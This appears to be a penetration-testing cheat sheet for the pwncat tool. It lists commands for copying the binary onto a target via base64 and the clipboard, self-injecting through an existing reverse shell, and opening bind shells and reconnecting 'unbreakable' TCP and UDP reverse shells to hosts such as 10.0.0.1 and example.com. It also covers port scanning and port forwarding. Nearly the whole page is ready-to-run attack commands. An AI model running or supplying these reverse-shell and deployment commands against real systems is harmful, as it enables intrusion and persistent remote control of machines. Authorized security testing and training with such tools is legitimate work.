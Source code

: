 # pwncat

{% embed url="https://hakin9.org/pwncat-netcat-on-steroids-with-firewall-ids-ips-evasion-bind-and-reverse-shell-self-injecting-shell-and-port-forwarding-magic-and-its-fully-scriptable-with-python-pse/" %}

{% embed url="https://github.com/cytopia/pwncat" %}

```
pip install pwncat
```

## <mark style="color:red;">Deploy to target</mark>

```
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64 |  xclip -selection clipboard

# Paste it on the target machine
 xclip -selection clipboard -o | base64 -d > pwncat
chmod +x pwncat
```

## <mark style="color:red;">Inject to target</mark>

If you found a vulnerability on the target to start a very simple reverse shell, such as via bash, php, perl, python, nc or similar, you can instruct your local pwncat listener to use this connection to deploy itself on the target automatically and start an additional unbreakable reverse shell back to you.

```
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445
```

## <mark style="color:red;">Summon shells</mark>

```
# Bind shell (accepts new clients after disconnect)
pwncat -l -e '/bin/bash' 8080 -k

# Reverse shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1

# Reverse UDP shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```

## <mark style="color:red;">Port scan</mark>

```
# [TCP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080
pwncat -z 10.0.0.1 1-65535
pwncat -z 10.0.0.1 1+1023

# [UDP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080 -u
pwncat -z 10.0.0.1 1-65535 -u
pwncat -z 10.0.0.1 1+1023 -u

# Use only IPv6 or IPv4
pwncat -z 10.0.0.1 1-65535 -4
pwncat -z 10.0.0.1 1-65535 -6 -u

# Add version detection
pwncat -z 10.0.0.1 1-65535 --banner
```

## <mark style="color:red;">Port Forward</mark>

### <mark style="color:orange;">Local port forward -L (listening proxy)</mark>

```
# Make remote MySQL server (remote port 3306) available on current machine
# on every interface on port 5000
pwncat -L 0.0.0.0:5000 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u
```

### <mark style="color:orange;">Remote port forward -R (double client proxy)</mark>

```
# Connect to Remote MySQL server (remote port 3306) and then connect to another
# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic
pwncat -R 10.0.0.1:4444 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u
```

## <mark style="color:red;">Interactive Shell</mark>

```
Unbreakable TCP reverse shell
pwncat --exec /bin/bash --nodns --reconn --reconn-wait 2 10.0.0.1 4444

Unbreakable UDP reverse shell
pwncat --exec /bin/bash --nodns --udp --ping-intvl 2 10.0.0.1 4444
```

## <mark style="color:red;">Also Pwncat :)</mark>

{% embed url="https://github.com/calebstewart/pwncat" %}

{% embed url="https://pwncat.readthedocs.io/en/latest/" %}

